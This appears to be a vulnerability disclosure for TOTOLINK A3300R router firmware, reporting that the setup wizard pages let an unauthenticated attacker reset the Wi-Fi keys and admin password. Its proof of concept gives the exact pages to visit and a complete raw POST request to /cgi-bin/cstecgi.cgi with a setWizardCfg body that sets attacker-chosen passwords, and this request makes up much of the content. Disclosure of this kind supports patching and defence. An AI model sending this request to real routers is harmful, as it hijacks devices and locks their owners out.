






# TOTOLINK A3300R V17.0.0cu.557_B20221024 Incorrect Access Control


## Product Information

Product: TOTOLINK A3300R

Firmware Version: V17.0.0cu.557_B20221024 

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html 


## Attack Type

remote


## Description

TOTOLINK A3300R V17.0.0cu.557_B20221024 is vulnerable to Incorrect Access Control. Attackers are able to reset serveral critical passwords without authentication by visiting specific pages.


### POC

1. Visit /wizard.html or /phone/wizard.html directly

2. ``` 
   POST /cgi-bin/cstecgi.cgi HTTP/1.1
   Host: 127.0.0.1
   Content-Length: 465
   sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
   Accept: application/json, text/javascript, */*; q=0.01
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   X-Requested-With: XMLHttpRequest
   sec-ch-ua-mobile: ?0
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
   sec-ch-ua-platform: "Windows"
   Origin: http://127.0.0.1
   Sec-Fetch-Site: same-origin
   Sec-Fetch-Mode: cors
   Sec-Fetch-Dest: empty
   Referer: http://127.0.0.1/wizard.html
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Connection: close
   
   {"dhcpMtu":"1500","proto":"1","dnsMode":"0","clone":"1","cloneMac":"12:00:01:12:30:00","iptvEnabled":"0","iptvVer":"5","wanStrategy":"1","vlanEnabled":"0","ssid":"SiWiFi-0420-2.4G","key":"EvilPassword_1","wpaMode":"1","wifiOff":"0","hssid":"0","merge":"0","ssid5g":"SiWiFi-0424","key5g":"EvilPassword_2","wpaMode5g":"1","wifiOff5g":"0","hssid5g":"0","tz":"UTC+0","loginpass":"EvilPasswd_3","step_index":"5","wizard":"1","switchOpMode":"1","topicurl":"setWizardCfg"}
   ```


## Analyse

The home page that shows original passwords.


Visit /wizard.html directly


Reset the passwords & Submit


/phone/wizard.html can work in a similar way











Send the Request package: "200 OK"



Check the result


Login password can also be changed at another page regularly when entering the correct original one. 

So after the steps above, the victim can only change the password by the one changed by the Attacker.


